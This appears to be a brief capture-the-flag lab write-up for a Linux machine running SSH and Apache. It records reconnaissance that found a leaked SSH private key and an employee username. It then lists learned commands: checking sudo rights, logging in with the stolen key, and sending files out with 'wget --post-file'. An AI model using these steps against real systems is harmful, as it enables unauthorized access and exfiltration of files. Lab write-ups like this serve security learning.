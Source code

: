 # Machine Information
### Open port
	22/tcp: SSH
	80/tcp: Apache 2.4.18
### OS: Linux

# Reconnaissance
	- Found sitemap endpoint.
	- Get jessie as name of a employee.
	- Got .ssh folder, where contain a ssh private key.

# What I learn from
1. Get permission of user in session
```bash
sudo -l
```
2. Connect SSH using private key
```bash
# Set permission for SSH private key (Optional)
sudo chmod 700 ssh_key_file_name
# Connect SSH
ssh -i ssh_key_file_name user@host
```
3. Using wget command to send file
```bash
wget --post-file file_name destination
```
